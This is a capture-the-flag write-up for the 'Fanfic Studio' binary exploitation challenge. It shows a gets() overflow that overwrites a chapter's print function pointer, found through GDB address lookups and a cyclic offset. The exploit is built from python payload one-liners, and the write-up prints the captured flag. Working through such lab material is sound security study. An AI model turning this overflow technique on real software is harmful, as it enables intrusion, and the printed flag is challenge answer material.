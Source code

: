 # Fanfic Studio
Binary Exploitation - 350 points

## Challenge 
> Written by arxenix

>Go to [`/problems/fanfic`](./fanfic) to check out my cool fanfic writing tool. I expect you to send me some steamy fanfics of michael.

## Solution

#### Analysis

- In `1. Edit chapter`: vulnerable `gets()`:

- In `3. Publish fanfic`: access pointer `curr_ch->print_ch(i, curr_ch);`

#### Function Addresses

GDB to get address

	user72122@shell:/problems/fanfic$ gdb ./fanfic 

	gdb-peda$ info add give_flag
	Symbol "give_flag" is at 0x80487ef in a file compiled without debugging.

	gdb-peda$ info add validate 
	Symbol "validate" is at 0x80487b4 in a file compiled without debugging.

Convert to little endian

	>>> pwn.p32(0x80487ef) # give_flag
	'\xef\x87\x04\x08'

	>>> pwn.p32(0x80487b4) # validate
	'\xb4\x87\x04\x08'

#### Offset

strace to get offset value

	$ pwn cyclic 300


	$ strace ./fanfic 
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61706361} ---
	+++ killed by SIGSEGV (core dumped) +++
	Segmentation fault (core dumped)


	$ pwn cyclic -l 0x61706361
	258

#### Payload for function address

	$ python -c 'print "A"*258 + "\xef\x87\x04\x08" ' > payload_flag.txt
	$ python -c 'print "A"*258 + "\xb4\x87\x04\x08" ' > payload_validate.txt

#### Setting argument for `validate()`

From source, we need to pass `0x40` into validate().

	int success = 0xFFFF;
	void validate(int ans) {
	    if ((ans ^ 0xDEADBEEF) == 0xDEADBEAF) {
	        success = 0xC001B4B3;
	    }
	}

Unfortunately we can't use ROP to set the argument. This is because we are overriding the `print_ch` pointer and not the return address of the function.

But, notice that when `curr_ch->print_ch(i, curr_ch);` is called, it passes `i` as the argument.

So if we set payload, it becomes `validate(i, curr_ch)`. So we just need to find out when `i = 0x40 = 64`. 

`i` is the count of chapters. Thus, we need to create 63 chapters. The 64th chapter will have the payload for `validate()` and 65th for `give_flag()`

#### Creating payload

Create 63 chapters and then edit on the 64th and 65th (since `gets` is used for editing and not during creating)

I'm too lazy to code up a script, hence I used simple text files. 

	$ (cat payload_part1.txt payload_validate.txt payload_part2.txt payload_flag.txt; cat) | ./fanfic 

And success, it tries to open the flag.


#### Get flag

Run the script on the server!
	
	user72122@shell:/problems/fanfic$ (cat ~/payload_part1.txt ~/payload_validate.txt ~/payload_part2.txt ~/payload_flag.txt; cat) | ./fanfic 
	...
	---------------
	Chapter 63: Chapter
	---------------
	Contents
	easyctf{h34p_expl01ts_ru1n1ng_my_f4nf1cs}

	user72122@shell:/problems/fanfic$ 

## Flag
`easyctf{h34p_expl01ts_ru1n1ng_my_f4nf1cs}`